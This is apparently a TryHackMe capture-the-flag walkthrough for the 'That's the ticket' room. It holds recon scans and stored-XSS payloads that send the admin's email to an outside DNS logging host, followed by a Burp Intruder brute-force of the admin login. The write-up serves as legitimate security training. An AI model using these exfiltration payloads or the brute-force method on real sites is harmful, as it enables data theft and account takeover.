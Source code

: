 # Walkthrough: That's the ticket

![](./assets/thmpage.png)


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

![](./assets/main.png)

1. Click register to register up a new account 

![](./assets/register.png)

2. After logging in we see the dashboard.

![](./assets/dashboard.png)

3. Checking the webpage we see the message box is vulnerable to XSS injection

![](./assets/createticket.png)

```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## DNS time!

Using the found XSS bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs DNS calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use XSS let's try a call back to the DNS service. 

```js
</textarea><img/src=x onerror="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/"/>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)

![](./assets/recievedadmin.png)

Now let's try to get some data back!

I tried cookies for a while but realised we only needed the admin's email (always keep in mind the scope and spec!)

New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

![](./assets/test.png)

Now we can get the admins email address, but we will have to swap a few characters to not break the URL to the DNS service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create a ticket and check the results on the service http://10.10.10.100

![](./assets/admin1.png)

We see the admin email and ours!

Now we can brute force the login page for the admin's password as we have the email now.

Using Burp suite's intruder module we can select the password and then feed in a list of passwords on the payload's tab

![](./assets/login1.png)

After a short while, we get a hit. 

![](./assets/brutewin.png)




And the final flag! 

![](./assets/flag1.png)


# Credits 

I hope you enjoyed this box as much as me.

Thanks to Adam for the box and good lessons! 

